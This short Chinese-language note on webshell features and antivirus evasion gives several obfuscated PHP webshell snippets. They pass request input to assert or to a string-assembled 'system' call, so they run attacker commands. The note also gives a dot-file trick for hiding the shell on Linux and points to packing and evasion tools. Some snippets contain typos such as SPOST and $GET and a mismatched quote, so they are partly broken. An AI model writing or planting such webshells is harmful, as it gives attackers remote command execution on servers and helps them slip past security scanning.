 

## **webshell文件特征**

主要是正常匹配一些敏感函数，和特征代码。

木马文件上传防静态查杀检测，做混淆：

```
<?php
  $a='b';
  $b=$GET['e'];
  $$a(SPOST['x']);
?>
//寻找绕过

<?php
  $a='b';
  $b='assert‘;
  $$a (base64_decode($_POST['x']);
  ?>


//
$XnEGfa = $_GET['Efa5BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX\[0];
($kDxfM->gHht)($XnEGfa);
```

木马文件名隐藏：
.shell.php在Linux中直接看隐藏看不到。

## **免杀方法**

<https://www.sqlsec.com/2020/07/shell.html>

Shielden进行webshell加壳。

弱鸡webshell免杀工具。

可以参考文章：<https://blog.csdn.net/guanjian_ci/article/details/139295929>